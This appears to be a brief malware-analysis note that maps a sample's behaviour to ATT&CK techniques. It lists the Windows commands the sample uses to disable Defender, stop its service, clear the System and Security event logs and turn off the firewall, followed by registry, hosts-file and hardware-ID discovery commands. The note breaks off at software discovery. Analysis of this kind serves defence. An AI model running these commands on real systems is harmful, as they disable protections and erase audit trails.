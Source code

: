 How and the code that it tries:

- Disables vie registry modification 

reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f

- Windows Defender Services

sc stop WinDefend
sc config WinDefend start= disabled

- Deletes security logs

wevtutil cl System
wevtutil cl Security

Disables Firewall rules to allow passage to C2 server 

netsh advfirewall set allprofiles state off


TA007


T1012(Query Registry)

Checks to monmitor AutoStart resistry keys and maintain persistence

- Example code for how it does so
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"


T1018(Remote System Discovery)

Looks for networked systems by reading host files. 

- Code like 

type C:\Windows\System32\drivers\etc\hosts 

&

net view /all


T1082(System Information Discovery)

Colects hardware and system data(cpu, guid's. hardware models)

- PS
MAchine GUID
reg query "HKLM\SOFTWARE\Microsoft\Cryptography" /v MachineGuid

Volume serial numbers
wmic diskdrive get serialnumber


Software policies and system settings

reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows"


T1518 & T1518.001(Software Discovery) 
